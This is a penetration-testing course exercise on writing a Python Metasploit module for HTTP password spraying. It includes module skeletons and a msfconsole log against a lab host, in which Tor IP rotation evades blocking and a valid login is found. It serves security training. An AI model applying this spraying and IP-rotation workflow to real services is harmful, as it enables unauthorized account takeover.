

# Introduction

In this python3 coding exercise you will learn how to write a Metasploit module.



## Learn how to

* write a Metasploit module

## Tasks

* Task 1: Prepare your code
* Task 2: Write the Metasploit Module
* Task 3: Run the Metasploit Module

## Preparation

```bash
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/ibuetler/p3s-dynamic-client-ip-password-spraying.git
cd /opt/git/p3s-dynamic-client-ip-password-spraying/HTTP-Metasploit
pipenv --python 3 sync
pipenv --python 3 shell
```


# Writing a Metasploit Module in Python

[Metasploit](https://www.metasploit.com/) is a widely used penetration testing framework backed by a community of over 200'000 users and contributors. Metasploit's exploit database consists of more than 1'300 exploits and more than 2'000 modules making it probably the most impactful penetration testing tool available today. 

## Step 1

### Prepare your code

Before you start to write your module, make sure you have completed the *HTTP Password Spraying* task as you'll need the code you've written for it.

## Step 2

### Install the dependencies

As you won't run the Metasploit module within a virtual environment you'll have to install the dependencies globally. 

1. Make sure you aren't within a virtual environment

   The following terminal output shows an example **being within a virtual environment**, you can notice it by the string within the parentheses before *root@hlkali*.

   ```bash
   (p3s-dynamic-client-ip-password-spraying-J5q6zjd1) root@hlkali:/opt/git/p3s-dynamic-client-ip-password-spraying# 
   ```

   The following terminal output is **not within a virtual environment**.

   ```bash
   root@hlkali:/opt/git/p3s-dynamic-client-ip-password-spraying# 
   ```

3. Install *requests and stem*

   ```bash
   pip install requests requests[socks] stem
   ```

4. Add */usr/share/metasploit-framework/lib/msf/core/modules/external/python* to the **PYTHONPATH** as the Metasploit module isn't packaged

   ```bash
   echo "export PYTHONPATH="/usr/share/metasploit-framework/lib/msf/core/modules/external/python" >> ~/.bashrc
   ```

## Step 3

### Metasploit Module Theory

#### Library

The *metasploit* library is imported into your python script as any other python module.

```python
from metasploit import module
```

#### Metadata

All Metasploit modules contain information about the authors, additional references to sources about the vulnerabilities, description of the module, options and so forth. 

The metadata information is **mandatory**.

##### Options

Within the metadata you can define command-line options as in this example the *url*. The options are saved within a dictionary, you can access the value of the options as follows:

```python
def run(args):
    args['url']
```

##### Type

The module type is used to select an ERB (Embedded RuBy) template to generate a Ruby document for the module. All available templates can be found [here](https://github.com/rapid7/metasploit-framework/tree/master/lib/msf/core/modules/external/templates).

* `remote_exploit_cmd_stager`: used to write exploits for command execution or code injection vulnerabilities
* `capture server`: used to write a module simulating a service which captures credentials for connecting clients
* `dos`: used to write a module sending packets to crash a remote service 
* `single_scanner`: used to write a module scanning hosts without batching
* `multi_scanner`: user to write a module scanning hosts with batching

##### Example

```python
metadata = {
    'name': 'Metasploit Module Example',
    'description': '''
        This is an example module.
    ''',
    'authors': [
        'John Doe'
    ],
    'date': '2020-04-20',
    'license': 'MIT',
    'references': [
        {'type': 'url', 'ref': 'http://google.com'}
    ],
    'type': 'single_scanner',
    'options': {
        'rhost': {'type': 'address', 'description': 'Target address', 'required': True, 'default': None}
}
```

#### Communication

You can communicate with *msfconsole* using a *LogHandler*. The `module.LogHandler.setup()` function creates a Handle and Formatter that calls `module.log()`with the appropriate log level - info, error, warning or debug.

```python
import logging as log
from metasploit import module

module.LogHandler.setup(msg_prefix='Example: ')

log.info('lorem')
log.error('ipsum')
log.warning('dolor')
log.debug('sit amet')
```

#### Imports

As you are writing a module you should handle required dependencies with a `try except` statement as follows:

```python
import logging

dependencies_missing = list()
try:
    import requests
except ImportError:
    dependencies_missing.append("Requests")

from metasploit import module

def run(args):
    module.LogHandler.setup(msg_prefix='Example: ')
    if len(dependencies_missing) > 0:
        logging.error("Cannot continue, missing dependencies:")
    	for dependency in dependencies_missing:
        	logging.error(f"{dependency} not found")
        return
    ...
```

#### Full example

The following example sends a simple get request to a HTTP-service and prints out the result.

```python
#!/usr/bin/env python3

# standard modules
import logging

# extra modules
dependencies_missing = list()
try:
    import requests
except ImportError:
    dependencies_missing.append("Requests")

from metasploit import module

metadata = {
    'name': 'Metasploit Module Example',
    'description': '''
        This is an example module.
    ''',
    'authors': [
        'John Doe'
    ],
    'date': '2020-04-20',
    'license': 'MIT',
    'type': 'single_scanner',
    'options': {
        'rhost': {'type': 'address', 'description': 'Target address', 'required': True, 'default': None}
}


def run(args):
    module.LogHandler.setup(msg_prefix='Example: ')
    if len(dependencies_missing) > 0:
        logging.error("Cannot continue, missing dependencies:")
    	for dependency in dependencies_missing:
        	logging.error(f"{dependency} not found")
        return
    
    try:
        r = requests.get(f"https://{args['rhost']}")
    except requests.exceptions.RequestException as e:
        logging.error(f"{e}")
        return
    
    logging.info(f'{r.text}')


if __name__ == '__main__':
    module.run(metadata, run)
```

## Step 4

### Writing the Module

As you've understood the basic structure of a Metasploit module you can now start to write your own module based on the *HTTP password spraying task*.

1. Metasploit expects your module within the folder `/root/.msf4/modules/exploits/moduledir/`. 

  ```bash
  mkdir -p /root/.msf4/modules/exploits/http/passwordspray
  cd /root/.msf4/modules/exploits/http/passwordspray
  touch spray.py
  chmod +x spray.py
  ```

2. Open the newly created file from `/root/.msf4/modules/exploits/http/passwordspray/spray.py` in your preferred editor

3. Import all needed modules and handle import errors as in *Imports* within *Metasploit Module Theory*

  ```python
  dependencies_missing = list()
  try:
      import requests
  except ImportError:
      dependencies_missing.append("Requests")
  ...
  ```

4. Import *logging* to communicate with Metasploit

   ```python
   import logging
   ```

5. Import *module* from *metasploit*

   ```python
   from metasploit import module
   ```

6. Define your *metadata*, you should add four options: *target, startuser, enduser* and *password*. You could also read the users from a text-file if preferred. 

   ```python
   metadata = {
       'name': 'HTTP Password Spray',
       'description': '''
           This is a module to find valid Login Credentials for Basic Authentication using Password spraying.
       ''',
       'authors': [
           'John Doe'
       ],
       'date': '2020-04-20',
       'license': 'MIT',
       'type': 'single_scanner',
       'options': {
           'rhost': {'type': 'address', 'description': 'Target address', 'required': True, 'default': None},
           'startuser': {'type': 'int', 'description': 'Start User', 'required': True, 'default': None},
           'enduser': {'type': 'int', 'description': 'End User', 'required': True, 'default': None},
           'password': {'type': 'string', 'description': 'Password', 'required': True, 'default': None},
   }
   ```

7. Define a *run* method as an entry point to your module

   ```python
   def run(args):
       # Your code goes here
   
   if __name__ == '__main__':
       module.run(metadata, run)
   ```

8. Initialize your *LogHandler* for commincation with the Metasploit Console within your *run* method

   ```python
   module.LogHandler.setup(msg_prefix='Example: ')
   ```

9. Handle import errors as shown within the *Metasploit Module Theory*

   ```python
   if len(dependencies_missing) > 0:
   	logging.error("Cannot continue, missing dependencies:")
       for dependency in dependencies_missing:
           logging.error(f"{dependency} not found")
   ```

10. Place the logic of your prepared code from the *HTTP Password Spraying Task* within the *run* method and add all your needed methods like *renew_IP* etc..

    ```python
    def run(args):
        ...
        # Your code goes here   
    ```

## Step 5

### Run your Metasploit Module

1. Start a new Terminal

2. Start the *msfconsole* from within the Terminal

   ```bash
   msfconsole
   ```

   LOG:

   ```bash
   root@hlkali:/home/hacker# msfconsole
                                                     
   
         .:okOOOkdc'           'cdkOOOko:.
       .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
      :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
     'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
     oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
     dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
     lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
     .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
      cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
       oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
        lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
         ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
          .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
            ,kOl'M.OOOOOOOOOOOOO.M'dOk,
              :kk;.OOOOOOOOOOOOO.;Ok:
                ;kOOOOOOOOOOOOOOOk:
                  ,xOOOOOOOOOOOx,
                    .lOOOOOOOl.
                       ,dOd,
                         .
   
          =[ metasploit v5.0.85-dev                          ]
   + -- --=[ 2003 exploits - 1094 auxiliary - 342 post       ]
   + -- --=[ 560 payloads - 45 encoders - 10 nops            ]
   + -- --=[ 7 evasion                                       ]
   
   Metasploit tip: Use the edit command to open the currently active module in your editor
   
   msf5 >
   ```

3. Change to your exploit with

   ```bash
   use exploit/http/passwordspray/spray
   ```

   LOG:

   ```bash
   msf5 > use exploit/http/passwordspray/spray 
   msf5 auxiliary(http/passwordspray/spray) >
   ```

4. Get all available options/parameters

   ```bash
   show options
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > show options
   
   Module options (auxiliary/http/passwordspray/spray):
   
      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      THREADS    1                yes       The number of concurrent threads (max one per host)
      enduser                     yes       The end user
      password                    yes       The password
      startuser                   yes       The start user
   
   msf5 auxiliary(http/passwordspray/spray) >
   ```

5. Set the modules parameters with `set optionName`

   ```bash
   set rhosts pwspray.vm.vuln.land
   set startuser 140000
   set enduser 140500
   set password password
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > set rhosts pwspray.vm.vuln.land
   rhosts => pwspray.vm.vuln.land
   msf5 auxiliary(http/passwordspray/spray) > set startuser 140000
   startuser => 140000
   msf5 auxiliary(http/passwordspray/spray) > set enduser 140500
   enduser => 140500
   msf5 auxiliary(http/passwordspray/spray) > set password password
   password => password
   ```

6. Start to `exploit` using your module by

   ```bash
   exploit
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > exploit
   
   [*] Running for 152.96.6.247...
   [*] Password Spray: -- Trying users: 140000 to 140009
   [*] Password Spray: New IP received: 51.77.135.89
   
   [*] Password Spray: User: user_140000 Password: password Status: 401
   [*] Password Spray: User: user_140001 Password: password Status: 401
   ...
   [*] Password Spray: User: -- Successfull logins:
   [*] Password Spray: User: user_140349 Password: password Status: 200
   ```

   